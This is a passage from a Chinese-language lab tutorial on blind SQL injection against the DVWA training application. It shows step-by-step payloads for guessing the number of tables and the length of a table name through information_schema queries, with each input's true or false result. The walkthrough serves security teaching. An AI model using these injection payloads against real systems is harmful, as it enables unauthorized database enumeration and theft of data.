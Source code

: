 从而，获取到当前连接数据库的名称为：dvwa

**3.猜解数据库中的表名**
数据表属性：指定数据库下表的个数、每个表的名称（表名长度，表名组成元素）

对于Mysql，DBMS数据库管理系统--->information_schema库--->tables表--->table_schema,table_name,table_rows,...字段。其结构如下所示：



![img](https://upload-images.jianshu.io/upload_images/4866277-47cd056f79a9f17e.png?imageMogr2/auto-orient/strip|imageView2/2/w/1096/format/webp)



![img](https://upload-images.jianshu.io/upload_images/4866277-5d8fc6637994af86.png?imageMogr2/auto-orient/strip|imageView2/2/w/756/format/webp)

1）猜解表的个数

| 输入                                                         | 输出    |
| :----------------------------------------------------------- | :------ |
| 1' and (select count(table_name) from information_schema.tables where table_schema=database())>10 # | MISSING |
| 1' and (select count(table_name) from information_schema.tables where table_schema=database())>5 # | MISSING |
| 1' and (select count(table_name) from information_schema.tables where table_schema=database())>2 # | MISSING |
| 1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # | exists  |

==> dvwa数据库中表的个数=2

2）猜解表名

- 表名称的长度

```csharp
# 1.查询列出当前连接数据库下的所有表名称
select table_name from information_schema.tables where table_schema=database()
# 2.列出当前连接数据库中的第1个表名称
select table_name from information_schema.tables where table_schema=database() limit 0,1
# 3.以当前连接数据库第1个表的名称作为字符串，从该字符串的第一个字符开始截取其全部字符
substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)
# 4.计算所截取当前连接数据库第1个表名称作为字符串的长度值
length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))
# 5.将当前连接数据库第1个表名称长度与某个值比较作为判断条件，联合and逻辑构造特定的sql语句进行查询，根据查询返回结果猜解表名称的长度值
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))>10 #
```

| 输入                                                         | 输出    |
| :----------------------------------------------------------- | :------ |
| 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))>10 # | MISSING |
| 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))>5 # | exists  |
| 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))>8 # | exists  |
| 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # | exists  |
